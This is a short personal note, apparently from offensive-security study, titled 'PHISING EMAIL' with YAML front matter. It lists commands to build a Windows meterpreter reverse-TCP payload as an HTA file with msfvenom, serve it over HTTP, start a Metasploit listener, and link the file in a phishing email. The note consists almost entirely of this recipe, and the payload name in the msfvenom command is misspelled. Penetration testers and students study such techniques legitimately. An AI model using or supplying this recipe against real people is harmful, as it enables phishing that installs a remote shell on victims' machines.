 ```yaml
---
title: PHISING EMAIL
updated: 2023-11-03 06:24:01Z
created: 2023-11-03 04:14:25Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


1. Create payload and host it
`msfvenom -p windows/x64/metrepreter/reverse_tcp LHOST=<kali> LPORT=443 -f hta-psh -o file.hta` 
`python3 -m http.server 80`
2. Set listener
`msfconsole`
`use multi/handler`
`set payload windows/x64/meterpreter/reverse_tcp`
set options and `exploit -j`
3. Attach link to hosted file.hta in email